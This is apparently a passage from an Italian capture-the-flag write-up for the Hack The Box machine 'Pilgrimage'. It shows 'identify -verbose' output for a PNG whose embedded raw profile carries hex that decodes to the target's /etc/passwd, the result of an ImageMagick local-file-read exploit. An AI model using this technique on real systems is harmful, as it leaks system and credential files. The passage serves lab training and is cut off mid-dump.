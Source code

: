 ```bash
```

Utilizziamo il comando "identify -verbose" per ottenere una panoramica completa delle proprietà tecniche di un'immagine, inclusi i dettagli del suo formato, dimensioni e attributi specifici.

```bash
┌──(root㉿kali)-[/home/kali/htb/pilgrimage/imagemagick-lfi-poc]
└─# identify -verbose 64a3b91034df1.png
Image: 64a3b91034df1.png
  Format: PNG (Portable Network Graphics)
  Geometry: 128x128
  Class: DirectClass
  Type: true color
  Depth: 8 bits-per-pixel component
  Channel Depths:
    Red:      8 bits
    Green:    8 bits
    Blue:     8 bits
  Channel Statistics:
    Red:
      Minimum:                   257.00 (0.0039)
      Maximum:                 65021.00 (0.9922)
      Mean:                    32639.00 (0.4980)
      Standard Deviation:      18978.98 (0.2896)
    Green:
      Minimum:                     0.00 (0.0000)
      Maximum:                 65278.00 (0.9961)
      Mean:                    11062.54 (0.1688)
      Standard Deviation:      15530.77 (0.2370)
    Blue:
      Minimum:                   257.00 (0.0039)
      Maximum:                 65021.00 (0.9922)
      Mean:                    32639.00 (0.4980)
      Standard Deviation:      18978.98 (0.2896)
  Gamma: 0.45455
  Chromaticity:
    red primary: (0.64,0.33)
    green primary: (0.3,0.6)
    blue primary: (0.15,0.06)
    white point: (0.3127,0.329)
  Filesize: 1.6Ki
  Interlace: No
  Orientation: Unknown
  Background Color: white
  Border Color: #DFDFDF
  Matte Color: #BDBDBD
  Page geometry: 128x128+0+0
  Compose: Over
  Dispose: Undefined
  Iterations: 0
  Compression: Zip
  Png:IHDR.color-type-orig: 2
  Png:IHDR.bit-depth-orig: 8
  Raw profile type:

    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
```